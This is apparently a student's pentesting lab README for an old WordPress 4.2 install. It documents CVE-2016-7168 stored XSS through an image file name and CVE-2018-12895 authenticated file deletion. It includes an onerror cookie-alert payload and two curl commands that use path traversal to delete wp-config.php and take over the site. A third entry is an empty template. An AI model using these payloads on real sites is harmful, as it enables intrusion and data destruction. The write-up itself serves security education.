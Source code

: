 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 Authenticated Stored XSS Via Image File Name
  - [ ] Summary: 
    - Vulnerability types: XSS (stored), Social Engineering
    - Tested in version: 4.2
    - Fixed in version: 4.2.10
  - [ ] GIF Walkthrough: https://github.com/zipesb/codepath_2022/blob/unit7_wordpress/unit7_vuln1.gif
  - [ ] Steps to recreate: Only tested in Linux. Use social engineering to provide image file to admin that contains malicious HTML/script in the image name (such as the example in Assets [1.1](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#11-example-malicious-image-file-name-vulnimg-srca-onerroralertdocumentcookiejpg)) and get admin to upload it to the wordpress site. When users view the page containing the uploaded attachment, the HTML/script stored in the image will execute. Possibly restricted to Linux and Mac OS as Windows disallows characters such as "<" in file names.
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0
    - [wpscan page](https://wpscan.com/vulnerability/e84eaf3f-677a-465a-8f96-ea4cf074c980)
### 2. CVE-2018-12895 Authenticated Arbitrary File Deletion
  - [ ] Summary: 
    - Vulnerability types: Improper Authentication (leads to arbitrary file deletion)
    - Tested in version: 4.2
    - Fixed in version: 4.2.21
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: As a user with Author privileges, upload a image. Then navigate to the page to edit the image ```http://192.168.33.10/wp-admin/post.php?post=17&action=edit```(replace ?post parameter with the numerical id of the image that was uploaded, can be seen in the URL as the ?item parameter when viewing the image from the media tab). On this page, copy the cookies and the wpnonce value from the post form in the HTML into the appropriate places in the curl command in Assets [2.1](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#21-example-command-to-set-the-image-thumbnail-as-the-file-to-be-maliciously-deleted-in-this-case-deleting-the-wp-configphp-file-curl--v-http1921683310wp-adminpostphppost17--h-cookie-wordpress_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903-wordpress_test_cookiewpcookiecheck-wp-settings-time-11647310661-wp-settings-time-21647311267-wp-settings-2mfold3do-wordpress_logged_in_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3--d-actioneditattachment_wpnonced4ea7fca1dthumbwp-configphp). Send this curl command, then find the wpnonce value from the file deletion form and place it into the curl command in Assets [2.2](https://github.com/zipesb/codepath_2022/edit/unit7_wordpress/README.md#22-curl-request-to-delete-image-and-newly-associated-thumbnail-curl--v-http1921683310wp-adminpostphppost17--h-cookie-wordpress_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903-wordpress_test_cookiewpcookiecheck-wp-settings-time-11647310661-wp-settings-time-21647311267-wp-settings-2mfold3do-wordpress_logged_in_ba4e3f1944a184cb3113f616618065deauthor_user7c16474841987cvabdpdltpheswpx2ecz6as38upnu9b8ws7vtotsbxtj7c808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3--d-actiondelete_wpnonce593d226e9c). When this command is sent it will delete the file that was associated with the image file as its thumbnail because Wordpress fails to make the appropriate checks if this file actually is the image thumbnail and should be deleted. In this example specifically, deleting wp-config.php can allow a user to escalate privileges as Wordpress mistakenly thinks the site has not been configured at all due to the missing config file, and it will prompt the user to create new admin credentials.
  - [ ] Affected source code: https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
    - [wpscan page](https://wpscan.com/vulnerability/42ab2bd9-bbb1-4f25-a632-1811c5130bb4)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files
### [1.1] (example malicious image file name): ```vuln\<img src=a onerror=alert(document.cookie)>.jpg```
### [2.1] (example command to set the image thumbnail as the file to be maliciously deleted, in this case deleting the wp-config.php file): ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=17' -H 'Cookie: wordpress_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-1=1647310661; wp-settings-time-2=1647311267; wp-settings-2=mfold%3Do; wordpress_logged_in_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3' -d 'action=editattachment&_wpnonce=d4ea7fca1d&thumb=../../../../wp-config.php'```
### [2.2] (curl request to delete image and newly associated "thumbnail"): ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=17' -H 'Cookie: wordpress_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C1048b25d5ff8cba59ff69d9acd57c14253e92e40f35e94f781554298543b4903; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-1=1647310661; wp-settings-time-2=1647311267; wp-settings-2=mfold%3Do; wordpress_logged_in_ba4e3f1944a184cb3113f616618065de=author_user%7C1647484198%7CVABdPDLtphesWPx2ecz6as38upnu9b8Ws7vtotSbxTj%7C808ae5c845d32fc6c6f1f989dcae303b9f3e5b622df1f662b5c637f8bb7a2db3' -d 'action=delete&_wpnonce=593d226e9c'```

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with ScreenToGif.

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
